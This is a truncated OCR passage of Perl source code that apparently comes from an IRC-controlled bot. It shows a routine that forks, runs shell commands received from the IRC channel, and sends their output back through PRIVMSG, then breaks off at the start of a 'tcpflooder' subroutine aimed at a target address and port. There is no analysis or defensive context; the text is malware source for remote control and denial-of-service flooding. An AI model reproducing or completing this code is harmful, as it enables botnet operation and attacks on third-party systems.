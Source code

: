       return; 

   } elsif ($pid = fork) { 

      waitpid($pid, 0); 

   } else { 

      if (fork) { 

         exit; 

      } else { 

         my @resp=`$comando 2>&1 3>&1`; 

         my $c=0; 

         foreach my $linha (@resp) { 

            $c++; 

            chop $linha; 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :$linha"); 

            if ($c == "$linas_max") { 

               $c=0; 

               sleep $sleep; 

            } 

         } 

         exit; 

      } 

   } 

} 

  

sub tcpflooder { 

   my $itime = time; 

   my ($cur_time); 

   my ($ia,$pa,$proto,$j,$l,$t); 

   $ia=inet_aton($_[0]); 

   $pa=sockaddr_in($_[1],$ia); 

   $ftime=$_[2]; 

   $proto=getprotobyname('tcp'); 

   $j=0;$l=0; 

   $cur_time = time - $itime; 
